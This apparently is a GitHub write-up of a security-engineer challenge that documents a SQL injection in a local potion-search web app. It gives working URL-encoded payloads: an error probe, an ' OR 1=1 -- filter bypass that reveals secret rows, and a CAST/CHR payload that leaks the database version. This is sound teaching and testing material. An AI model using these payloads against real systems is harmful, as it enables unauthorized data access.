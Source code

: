 # Application Security Engineer Challenge

During the course of the challenge, four vulnerabilities were discovered. One of these vulnerabilities, specifically an SQL injection, was addressed and resolved to successfully complete the challenge.

### 1. Answer 

### 1. The application's main potion search box.

#### Vulnerablity: SQL Injection

#### Description: 

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

#### PoC: 

The initial payload, which resulted in an error.
```http://localhost:4000/?name=%27%3D0--%2B```  
```
[no match of right hand side value: {:error, %Postgrex.Error{connection_id: 52389, message: nil, postgres: %{code: :undefined_function, file: "parse_oper.c", hint: "No operator matches the given name and argument types. You might need to add explicit type casts.", line: "647", message: "operator does not exist: boolean = integer", pg_code: "42883", position: "94", routine: "op_error", severity: "ERROR", unknown: "ERROR"}, query: "SELECT p.id, p.name, p.milliliters, p.price, p.secret\nFROM potions as p\nWHERE p.name LIKE '%'=0--+%' AND p.secret = false\n"}}]
```
The error showed the direct interpolation of user input ['name'] into SQL query, indicating a strong potential for exploiting a SQL injection vulnerability.

![1_SQL](https://github.com/user-attachments/assets/fc71a205-2862-4606-98b5-c2dfa05fa427)


For successful exploitation, the following payload was utilized. 

```http://localhost:4000/?name=%27%20OR%201%3D1%20-```

The payload ' OR 1=1 -- exploits a SQL injection vulnerability to bypass restrictions in the query. Normally, the query filters potions by name and ensures they are not secret. However, the payload ends the name filter condition and adds OR 1=1, which always evaluates to TRUE, making the WHERE clause ineffective. The -- comments out the rest of the query, ignoring any conditions like p.secret = false. This tricks the database into returning all potions, including those that are normally hidden or secret, exposing sensitive data.

![2_SQL](https://github.com/user-attachments/assets/32d4b925-2f91-4561-a431-f9a55ebd659e)


To retrieve the DBMS banner, the following link was used along with the payload.

```http://localhost:4000/?name=potion%27+AND+8683%3DCAST%28%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%29%7C%7C%28COALESCE%28CAST%28VERSION%28%29+AS+VARCHAR%2810000%29%29%3A%3Atext%2C%28CHR%2832%29%29%29%29%3A%3Atext%7C%7C%28CHR%28113%29%7C%7CCHR%28122%29%7C%7CCHR%2898%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%29+AS+NUMERIC%29--+Lqjf```

![Dbms_Burp](https://github.com/user-attachments/assets/4123e649-7465-4ffc-acc8-b1fee0bddd23)


![3_SQL](https://github.com/user-attachments/assets/822d2ecc-f090-4087-8e82-7baebed31178)

```